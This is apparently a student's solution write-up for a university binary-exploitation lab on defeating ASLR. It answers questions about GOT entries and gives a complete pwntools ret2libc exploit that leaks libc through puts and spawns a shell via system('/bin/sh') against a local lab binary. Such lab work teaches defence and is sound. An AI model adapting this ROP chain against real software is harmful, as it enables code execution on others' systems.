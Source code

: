 # Laborator 4

### [Q1]: Knowing the interesting property above, what would be a weakness of ASLR?
### Solution to [Q1]:
The weakness of ASLR is that once we obtain the location of any function or instruction, we can infer the positions of all other functions and data segments relative to that known point (the offsets remain the same, only the base address of of a module changes).

## Exercise 1

### [Q2]: Are there interesting functions you can jump to? Check out the full disassembly with `objdump -M intel -d ./bin/ex1`.
### Solution to [Q2]:
`power` : it allows us to control register values and execute arithmetic operations.

### [Q3]: Try the `got` command in `pwndbg` and `gef`. It will show you the contents of the GOT section. At the beginning of the binary, the imported functions should point to executable stubs in the binary that trigger the linker. After executing the imported functions once, the GOT section should contain their real, libc address.
### Solution to [Q3]:
```python
pwndbg> got
Filtering out read-only entries (display them with -r or --show-readonly)

State of the GOT of /home/radu/osds-lab/lab4/bin/ex1:
GOT protection: Partial RELRO | Found 2 GOT entries passing the filter
[0x404000] puts@GLIBC_2.2.5 -> 0x7ffff7e2cbd0 (puts) ◂— endbr64
[0x404008] gets@GLIBC_2.2.5 -> 0x7ffff7e2c070 (gets) ◂— endbr64
```

### [Q4]: So the GOT contains addresses from inside imported libraries. How can we exploit this?
### Solution to [Q4]:
Leak address of `puts` -> Leak address of `libc` -> Find offsets for `/bin/sh`, `system`.

## Solution to Exercise 1: 
```python
from pwn import *

context.binary = elf = ELF('./bin/ex1')
p = process()
p.recvline()

# cyclic -l ...
padding = 40

# ropper --file ./bin/ex1 --search "pop rdi"
# 0x0000000000401193: pop rdi; pop rbp; ret;
pop_rdi = 0x0000000000401193

puts = elf.sym.puts

payload = flat(
        b'A' * padding,
        pop_rdi,
        elf.got.puts,
        0xdeadbeef,
        puts,
        elf.sym.main,
)
p.sendline(payload)

puts_base = unpack(p.recvlines(2)[1], 'all')
libc_base = puts_base - 0x0000000000087bd0

# strings -t x /lib/x86_64-linux-gnu/libc.so.6 | grep -i /bin/sh
binsh = libc_base + 0x1cb42f


# 0x000000000040101a: ret
ret = 0x000000000040101a

# objdump -T /lib/x86_64-linux-gnu/libc.so.6 | grep -i system
system = libc_base + 0x0000000000058740

payload = flat(
        b'A' * padding,
        pop_rdi,
        binsh,
        0xdeadbeef,
        ret,
        system,
)

p.sendline(payload)
p.interactive()
```

## Exercise 2



